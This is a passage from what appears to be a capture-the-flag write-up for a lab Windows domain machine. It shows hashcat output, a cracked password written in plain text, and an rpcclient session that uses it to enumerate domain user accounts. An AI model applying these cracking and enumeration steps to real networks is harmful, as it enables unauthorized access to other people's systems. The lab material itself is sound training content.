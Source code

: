 ```
Restore.Point....: 14327808/14344385 (99.88%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: $Cah$ -> #!hrvert

Started: Fri Oct  2 18:48:48 2020
Stopped: Fri Oct  2 18:49:51 2020
```
Great let's save these credentials, support:#00^BlackKnight<br>
Now we can enumerate smb and rpc with these creds<br>
```shell
sid@kali:~$ rpcclient -U 'support' 10.10.10.192                                                                                                         1 ⨯
Enter WORKGROUP\support's password: 
rpcclient $> enumdomusers 
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[audit2020] rid:[0x44f]
user:[support] rid:[0x450]
user:[BLACKFIELD764430] rid:[0x451]
user:[BLACKFIELD538365] rid:[0x452]
user:[BLACKFIELD189208] rid:[0x453]
user:[BLACKFIELD404458] rid:[0x454]
user:[BLACKFIELD706381] rid:[0x455]
user:[BLACKFIELD937395] rid:[0x456]
user:[BLACKFIELD553715] rid:[0x457]
user:[BLACKFIELD840481] rid:[0x458]
user:[BLACKFIELD622501] rid:[0x459]
user:[BLACKFIELD787464] rid:[0x45a]
user:[BLACKFIELD163183] rid:[0x45b]
user:[BLACKFIELD869335] rid:[0x45c]
user:[BLACKFIELD319016] rid:[0x45d]
user:[BLACKFIELD253541] rid:[0x460]
user:[BLACKFIELD175204] rid:[0x461]
user:[BLACKFIELD727512] rid:[0x462]
user:[BLACKFIELD227380] rid:[0x463]
user:[BLACKFIELD251003] rid:[0x464]
user:[BLACKFIELD129328] rid:[0x465]
user:[BLACKFIELD616527] rid:[0x466]
user:[BLACKFIELD533551] rid:[0x467]
user:[BLACKFIELD883784] rid:[0x468]
user:[BLACKFIELD908329] rid:[0x469]
user:[BLACKFIELD609423] rid:[0x530]
user:[BLACKFIELD395725] rid:[0x531]
user:[BLACKFIELD438923] rid:[0x532]
user:[BLACKFIELD691480] rid:[0x533]
user:[BLACKFIELD236467] rid:[0x534]
user:[BLACKFIELD895235] rid:[0x535]
user:[BLACKFIELD651599] rid:[0x53a]
user:[BLACKFIELD579344] rid:[0x53b]
user:[BLACKFIELD859776] rid:[0x53c]
user:[BLACKFIELD584113] rid:[0x570]
user:[BLACKFIELD204805] rid:[0x571]
user:[BLACKFIELD842593] rid:[0x572]
user:[BLACKFIELD397679] rid:[0x573]
user:[BLACKFIELD842438] rid:[0x574]
user:[BLACKFIELD286615] rid:[0x575]
user:[BLACKFIELD224839] rid:[0x576]
user:[BLACKFIELD631599] rid:[0x577]
user:[BLACKFIELD247450] rid:[0x578]
user:[BLACKFIELD290582] rid:[0x579]
user:[BLACKFIELD657263] rid:[0x57a]
user:[BLACKFIELD314351] rid:[0x57b]
```